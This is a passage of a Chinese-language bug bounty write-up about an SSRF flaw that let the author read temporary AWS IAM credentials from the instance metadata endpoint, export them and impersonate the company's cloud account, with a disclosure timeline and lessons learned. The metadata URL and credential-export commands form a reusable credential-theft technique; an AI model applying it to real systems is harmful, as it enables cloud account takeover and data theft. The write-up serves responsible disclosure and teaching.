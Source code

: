 由于我对AWS的元数据一无所知，所以我花费了一些时间来探索目录和所有文件。其中，最有趣的一个文件是 [http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)&lt;ROLE&gt; 。它返回的内容是：

```
`{`
  "Code":"Success",
  "Type":"AWS-HMAC",
  "AccessKeyId":"...REDACTED...",
  "SecretAccessKey":"...REDACTED...",
  "Token":"...REDACTED...",
  "Expiration":"2018-09-06T19:24:38Z",
  "LastUpdated":"2018-09-06T19:09:38Z"
`}`
```



## 对凭据的利用

尽管现在，我的漏洞挖掘过程已经结束。但我希望能展现出凭据泄漏所带来的严重危害。我试图使用这些凭据来冒充这家公司。我们知道，这些凭据都是临时的，只在短时间内有效，大概也只有5分钟左右。但是，5分钟已经足够我将自己的凭据进行替换，并进行复制粘贴。<br>
针对SSRF和AWS Master的问题，我在Twitter上寻求了帮助。感谢大家的帮忙，最后我终于在AWS Identity and Access Management的用户指南中找到了解决方案。这是我的失误，之前没有阅读文档，并且只使用了AccessKeyId和SecretAccessKey。实际上，我们还必须导出令牌。

```
$ export AWS_ACCESS_KEY_ID=AKIAI44...
$ export AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI...
$ export AWS_SESSION_TOKEN=AQoDYXdzEJr...
```

接下来，使用以下命令检查我当前的身份，证明不再是自己原来的用户。

```
aws sts get-caller-identity
```

至此，就能够证明已经成功接管了AWS。

[![](https://p4.ssl.qhimg.com/dm/1024_576_/t013005bbfab2e41d72.png)](https://p4.ssl.qhimg.com/dm/1024_576_/t013005bbfab2e41d72.png)上图左侧是由ArticMonkey配置的EC2实例的列表，可能是他们系统中的重要文件。<br>
右侧展现了该公司有20个Bucket，其中包含来自客户的高度敏感数据、用于Web应用程序的静态文件和服务器的日志及备份（根据Bucket名称判断）。其产生的影响非常严重。



## 时间节点

2018年9月6日 12:00 开始漏洞挖掘<br>
2018年9月7日 00:30 报告漏洞详情<br>
2018年9月7日 19:30 漏洞已经修复，并获得奖励<br>
感谢ArticMonkey如此快速地修复漏洞并发放了奖励，也要感谢他们授权我发表这篇文章。



## 总结

通过这个漏洞，我学到了很多内容：<br>
1、ReactJS、fetch()函数、AWS元数据的原理；<br>
2、官方文档始终是重要的（有用）信息来源；<br>
3、在每一步，都会遇到新的问题，必须要积极查找资料，从多个角度尝试，竭尽全力，不要放弃；<br>
4、我现在知道自己居然可以从0开始完全攻破一个系统，获得了满满的成就感。
